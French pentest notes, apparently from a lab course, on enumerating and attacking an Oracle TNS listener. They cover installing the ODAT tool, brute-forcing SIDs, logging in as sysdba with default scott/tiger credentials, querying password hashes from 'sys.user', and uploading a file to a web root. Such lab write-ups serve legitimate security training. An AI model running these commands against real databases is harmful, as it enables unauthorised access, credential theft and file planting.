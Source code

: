Le serveur `Oracle Transparent Network Substrate`( `TNS`) est un protocole de communication qui facilite la communication entre les bases de données et les applications Oracle sur les réseaux.

Avant de pouvoir énumérer l'écouteur TNS et interagir avec lui, nous devons télécharger quelques paquets et outils
```bash
wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-basic-linux.x64-21.4.0.0.0dbru.zip

wget https://download.oracle.com/otn_software/linux/instantclient/214000/instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip

sudo mkdir -p /opt/oracle
sudo unzip -d /opt/oracle instantclient-basic-linux.x64-21.4.0.0.0dbru.zip
sudo unzip -d /opt/oracle instantclient-sqlplus-linux.x64-21.4.0.0.0dbru.zip
export LD_LIBRARY_PATH=/opt/oracle/instantclient_21_4:$LD_LIBRARY_PATH
export PATH=$LD_LIBRARY_PATH:$PATH
source ~/.bashrc
git clone https://github.com/quentinhardy/odat.git
cd odat/
pip install python-libnmap
git submodule init
git submodule update
pip3 install cx_Oracle
sudo apt-get install python3-scapy -y
sudo pip3 install colorlog termcolor passlib python-libnmap
sudo apt-get install build-essential libgmp-dev -y
pip3 install pycryptodome
./odat.py -h # si l'instalation a reuissi 

```


Oracle Database Attacking Tool ( `ODAT`) est un outil de test d'intrusion open source écrit en Python et conçu pour recenser et exploiter les vulnérabilités des bases de données Oracle. Il permet d'identifier et d'exploiter diverses failles de sécurité dans les bases de données Oracle, notamment l'injection SQL, l'exécution de code à distance et l'élévation de privilèges.


#### Brute force  SID 

```bash
sudo nmap -p1521 -sV 10.129.204.235 --open --script oracle-sid-brute
```

```bash
./odat.py all -s 10.129.204.235
```

SQLplus pour se connecter a la bd 

```bash
sqlplus username/password@10.129.204.235/XE
```

Si vous rencontrez l'erreur suivante `sqlplus: error while loading shared libraries: libsqlplus.so: cannot open shared object file: No such file or directory`, veuillez exécuter ce qui suit, extrait d' [ici](https://stackoverflow.com/questions/27717312/sqlplus-error-while-loading-shared-libraries-libsqlplus-so-cannot-open-shared) .

```bash
sudo sh -c "echo /usr/lib/oracle/12.2/client64/lib > /etc/ld.so.conf.d/oracle-instantclient.conf";sudo ldconfig
```

```bash
sqlplus username/password@10.129.204.235/XE as sysdba

SQL> select * from user_role_privs;
SQL> select name, password from sys.user
```

Telechargement de fichier 

```bash
./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt
```

https://docs.oracle.com/cd/E11882_01/server.112/e41085/sqlqraa001.htm#SQLQR985